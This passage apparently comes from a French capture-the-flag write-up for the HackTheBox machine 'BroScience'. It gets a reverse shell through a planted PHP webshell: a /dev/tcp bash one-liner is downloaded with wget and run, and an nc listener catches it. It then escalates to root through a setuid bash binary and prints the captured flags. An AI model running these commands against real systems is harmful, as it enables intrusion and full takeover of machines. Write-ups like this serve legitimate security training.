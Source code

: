 - On crée un script `revshell.sh` qui contiendra notre reverse shell à exécuter :

```bash
$ cat revshell.sh                                                
#!env sh
/bin/sh -i >& /dev/tcp/10.10.14.179/1337 0>&1
```

- On le rend téléchargeable en lancant un serveur web depuis le dossier contenant ce script à l'aide de la commande `python -m http.server 80`
- On le télécharge via le webshell dans le dossier courant qui dispose d'un droit en écriture pour www-data :

```
curl -X GET http://broscience.htb/rebrec2.php?cmd=wget%20http://10.10.14.179/revshell.sh 
```

- On l'exécute après avoir lancé localement un listener à l'aide de la commande `rlwrap nc -lnvp 1337` :

```
curl -X GET http://broscience.htb/rebrec2.php?cmd=bash%20./revshell.sh 
```

```
id                                                                                                        
uid=33(www-data) gid=33(www-data) groups=33(www-data)   
```

# Elevation de privilèges

###################################################################

# ANCIENNE RESOLUTION ERRONNEE

###################

Après avoir téléchargé le script `lse.sh` puis l'avoir exécuté avec la commande : `bash ./lse.sh -l1 p1`, on découvre que le shell `bash` est setuid root :

```
[!] fst020 Uncommon setuid binaries........................................ yes!                                      
---                                                                                                                   
/usr/bin/vmware-user-suid-wrapper                                                                                     
/usr/bin/bash                                                                               
```

Il ne reste plus qu'à obtenir les privilèges root et afficher les flags :

```
$ bash -p                                                                                                             
id                                                                                                                    
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)                                                    
cat /root/root.txt                                                                                                    
7eaf6db3********37bd4f15830e0                                                                                      
cat /home/bill/user.txt                                                                                               
0d8eadfb********617b5debcecbfe54                      
```
